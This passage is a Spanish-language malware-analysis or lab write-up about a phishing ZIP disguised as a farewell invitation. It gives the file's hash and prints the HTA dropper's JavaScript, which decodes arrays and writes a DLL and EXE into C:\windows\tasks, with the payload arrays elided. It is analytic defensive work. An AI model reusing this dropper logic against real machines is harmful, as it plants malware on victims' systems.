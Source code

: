 ```
$ sha256sum Invitation_Farewell_DE_EMB.zip
5d4bf026fad40979541efd2419ec0b042c8cf83bc1a61cbcc069efe0069ccd27  Invitation_Farewell_DE_EMB.zip
```

El hash SHA256 del archivo ZIP descargado por `downloader.html` es `5d4bf026fad40979541efd2419ec0b042c8cf83bc1a61cbcc069efe0069ccd27`.

---

## **2. *The downloaded ZIP file contains a HTA file, which creates multiple files. One of those files is a signed fileby Microsoft Corporation. In HTA file, which variable’s value was the content of that signed file?***

El contenido del archivo `Invitation_Farewell_DE_EMB.hta` es el siguiente:

> Para mejorar la legibilidad del código utilicé [Code Beautify](https://codebeautify.org) y remplacé el valor de los arrays por `...`.

```html
<html>
  <head>
    <script language="javascript">
      var mso = [...];
      var content = '';
      for (var i = 0x0; i < mso['length']; i++) {
        content += String['fromCharCode'](mso[i]);
      }
      var f = new ActiveXObject('scripting.filesystemobject');
      var msopath = f.GetFolder("C:\\windows\\tasks") + '\\mso.dll';
      var a1 = f['opentextfile'](msopath, 0x2, 0x1, 0x0);
      a1['write']('MZ');
      a1['close']();
      var a2 = f['opentextfile'](msopath, 0x8, 0x1, -0x1);
      a2['write'](content);
      a2['close']();
      var msoev = [...];
      var content2 = '';
      for (var i = 0x0; i < msoev['length']; i++) {
        content2 += String['fromCharCode'](msoev[i]);
      }
      var f = new ActiveXObject('scripting.filesystemobject');
      var msoevpath = f.GetFolder("C:\\windows\\tasks") + '\\msoev.exe';
      var a3 = f['opentextfile'](msoevpath, 0x2, 0x1, 0x0);
      a3['write']('MZ');
      a3['close']();
      var a4 = f['opentextfile'](msoevpath, 0x8, 0x1, -0x1);
      a4['write'](content2);
      a4['close']();
      var app = [...];
      var content3 = '';
      for (var i = 0x0; i < app['length']; i++) {
        content3 += String['fromCharCode'](app[i]);
      }
      var f = new ActiveXObject('scripting.filesystemobject');
      var pathapp = f.GetFolder("C:\\windows\\tasks") + '\\AppVIsvSubsystems64.dll';
      var a5 = f['opentextfile'](pathapp, 0x2, 0x1, 0x0);
      a5['write']('MZ');
      a5['close']();
      var a6 = f['opentextfile'](pathapp, 0x8, 0x1, -0x1);
      a6['write'](content3);
      a6['close']();
      var pdf = [...];
      var content4 = '';
      for (var i = 0x0; i < pdf['length']; i++) {
```